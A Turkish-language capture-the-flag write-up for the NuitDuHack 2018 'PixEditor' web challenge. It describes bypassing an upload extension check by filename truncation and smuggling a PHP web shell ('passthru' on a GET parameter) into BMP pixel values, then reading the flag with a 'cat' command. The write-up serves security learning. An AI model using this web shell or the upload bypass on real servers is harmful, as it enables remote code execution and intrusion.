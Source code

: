 #NuitDuHack web350 

##PixEditor

```
Description

Create your own pixel art with this powerful tool.

Url
    http://pixeditor.challs.malice.fr/
```

Bu soruda pixeditor isimli js kodu çalıştırılıyor. Temel olarak yaptığınız şey RGB valueleri göndererek arkada belirli formatlarda BMP JPG gibi görseller oluşturulmasını sağlamak. Öncelikle gönderilen post datanın içeriğine bakıyoruz.

![ilk](https://github.com/csmali/hackedemedikki-CTF/blob/master/nuitduhack-2018/web350/pixeditor1.png "ilk")

save.php'ye data name ve format parametreleri ile RGB değerleri gönderiliyor. 


Öncelikle direkt olarak dosya uzantısını php yapmaya çalıştık ancak arkada kontrol edildiğini gördük.
Ardından bunu bypass etmek için dosya ismi uzunluğunu kullandık. Belirli bir karakter sınırını geçen dosya isimlerini arka tarafta kırptıklarını tespit ettik.

```
uzunstring.php.jpg
```
şeklinde verilen bir dosya ismini son 4 karakterini kırpacak şekilde düzgün formatta verirseniz eğer ve bu dosyaya erişirseniz serverin php kodu çalıştırmaya çalışacagını tespit ettik.

![ikinci](https://github.com/csmali/hackedemedikki-CTF/blob/master/nuitduhack-2018/web350/pixeditor2.png "ikinci")

Bundan sonra RGB valuelarını kullanarak php kodu göndermemiz gerekiyordu.Bunun için BMP en uygun format. Her piksel için 4 değer veriyorsunuz. Verdiğiniz ilk 3 değer direkt olarak renk kodlarını ifade ediyor Bunun için yazmak istediğiniz her karakterin ascii karşılıgını RGB değerlerinin her birine denk gelecek şekilde payload yarattık. Ayrıca her 3lü için bmp değerlerinin ters çevrilmesi gerektiğini gördük. Yani siz abc yazmak isterseniz cba ascii değerini ekleyip sonraki 3lüye geçmeniz gerekiyor
 
```
abcdefg stringi için

abc
[99,98,97,255]
def
[102,101,100,255]
g
[255,255,103,255]
```
gibi bir payload yaratmanız gerekiyor . 

Klasik php için kullandığımız command execution payloadu


```
 "<?echo passthru($_GET['cmd']); ?>"
```

Her karakteri el ile bulup yapmak zor oldugu için python scripti yazdım. payloadun ascii karşılığını alıp her üç karakteri reverse orderda birleştirmeyi sağlıyor. En son da paddingi yapıp aradaki boşluk ve virgülleri kaldırdım.

![ucuncu](https://github.com/csmali/hackedemedikki-CTF/blob/master/nuitduhack-2018/web350/pixeditor3.png "ucuncu")

Ardından bunu post datasının uzunlugunu bozmadan enjekte edince php kodu çalıştırabilir bir link aldık

```
 ?cmd=cat /flag
```
parametresi ile de flagi okuduk.

![ucuncu](https://github.com/csmali/hackedemedikki-CTF/blob/master/nuitduhack-2018/web350/pixeditor3.png "ucuncu")

